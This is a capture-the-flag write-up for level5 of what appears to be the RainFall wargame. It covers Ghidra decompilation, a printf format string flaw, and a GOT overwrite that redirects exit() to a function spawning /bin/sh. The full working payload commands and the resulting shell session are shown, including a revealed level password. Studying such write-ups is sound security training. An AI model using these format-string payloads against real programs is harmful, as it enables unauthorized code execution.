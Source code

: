 ## Basic analysis
There is level5 binary waiting for us and again, it behaves just the same - printing what it reads from stdin:

./level5
42 let me pass
42 let me pass

OK, Ghidra it is:
~~~C
void main(void)

{
  n();
  return;
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
~~~
This time **main()** calls the function **n()** which just prints the input and exits. Upon further examination, we will find
another function, **o()**:
~~~C
void o(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}
~~~
This, as we can see, will be our target as it will trigger the shell for us. Memory position: **0x080484a4**

## Format string attack
We will be using format string attack again, but there is one big difference here: as we can see, both **o()** and **n()** does not
return, but using **exit()** instead, preventing the overwrite with format string. Thus, we will have to overwrite the call to exit with the **o()** function.

We will do this by overwriting the **GOT** (Global Offset Table] address - we will link it to the **o()** function.
We can use Ghidra's symbol tree to find **.got.plt** object - which is a part of GOT with pointers to funtions from the **PLT** (Procedure Linkage Table). In simple terms, it is a contact list to functions called from outside of the binary runtime. When we examine the .obj.plt, we find out that the address of **exit** is **0x08049838**.
Now, we can prepare the payload:
~~~shell
address of exit() in hex - %addressofoindecimalx + positioning of exit
~~~
We will firstly find the exit() function:
~~~shell
level5@RainFall:~$ python -c "print '\x08\x04\x98\x38'[::-1] + '%x '*10" | ./level5
8200 b7fd1ac0 b7ff37d0 8049838 25207825 78252078 20782520 25207825 78252078 20782520 
~~~
Bingo! Number 4. Decimal for 0x080484a4 (o()) is **134513824** And here we go with the payload:
~~~shell
level5@RainFall:~$ python -c "print '\x08\x04\x98\x38'[::-1] + '%134513824x%4\$n'" > /tmp/flag5
level5@RainFall:~$ cat /tmp/flag5 - | ./level5

[...lots of stuff...]
              2000
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
~~~



